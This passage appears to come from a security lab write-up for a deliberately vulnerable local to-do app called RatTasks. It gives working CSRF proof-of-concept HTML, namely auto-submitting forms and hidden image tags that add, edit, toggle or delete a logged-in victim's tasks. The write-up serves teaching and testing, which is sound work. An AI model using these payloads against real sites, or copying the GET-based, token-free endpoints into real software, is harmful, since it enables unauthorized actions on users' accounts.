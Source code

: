 
## 3) CSRF on Add, Edit, Toggle, Delete

**Vulnerability:** There’s no CSRF protection. State‑changing endpoints accept requests with only the victim’s cookie for auth.

> For the following, the victim must be **logged in** to RatTasks in the same browser.

### CSRF: Add a task (auto‑submit form)

Create a local HTML file (e.g., `csrf-add.html`) and open it in your browser while logged in to RatTasks:

```html
<!doctype html>
<form action="http://127.0.0.1:5000/" method="POST" id="f">
  <input name="title" value="CSRF injected task!">
</form>
<script>document.getElementById('f').submit();</script>
```

**Result:** A new task appears in the victim account.

### CSRF: Delete a known task via `GET`

Because delete uses `GET`, an attacker can use an image tag:

```html
<!doctype html>
<img src="http://127.0.0.1:5000/delete/42" style="display:none">
```

**Result:** Visiting this page while logged in to RatTasks deletes task `42`.

### CSRF: Toggle a task via `GET`

```html
<!doctype html>
<img src="http://127.0.0.1:5000/toggle/42" style="display:none">
```

**Result:** Task `42` flips between done/undone.

### CSRF: Edit via POST

```html
<!doctype html>
<form action="http://127.0.0.1:5000/edit/42" method="POST" id="f">
  <input name="title" value="CSRF changed your title">
</form>
<script>f.submit();</script>
```

---

## 4) Clickjacking (No Frame Protections)
